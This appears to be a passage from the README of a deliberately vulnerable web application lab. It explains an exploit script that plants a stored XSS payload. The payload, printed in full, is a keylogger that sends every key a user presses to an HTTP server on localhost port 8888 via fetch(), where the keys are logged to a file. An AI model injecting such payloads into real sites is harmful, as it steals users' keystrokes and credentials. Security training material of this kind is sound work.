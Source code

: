 ![XSS Easy](./images/spa_xss_easy.png)

</br></br>



#### **Automatic Exploitation**
An additional way to exploit the framework has been provided in **exploit.py** script, inside **Exploit** folder. This exploit will perform two separate tasks:

1. First it will send a series of requests to the application in order to inject a specific payload (either the default one or a payload passed from the command line)

    The default payload hardcoded within the exploit is the following one:
    ~~~
    "><script>document.onkeydown=function(event){fetch('http://localhost:8888/data?letter='+encodeURIComponent(event.key))}</script>
    ~~~
    This Javascript code will simply log every key pressed by users, and send them to an **HTTP Server** on port 8888

</br>

2. If you are using the default payload and it has been injected correctly, the exploit will automatically start the HTTP Server, log requests received by it (shown in standard output) and log all keys pressed by users in a file named **log_output.txt** 


3. If everything worked as expected, the server will now receive requests from the application as soon as a user has his mouse focused on the resources page and he/she presses a button. This result can be observed in the two following screenshots:

</br>

**HTTP Server Output**
![Server Log](./images/spa_exploit_terminal.png)
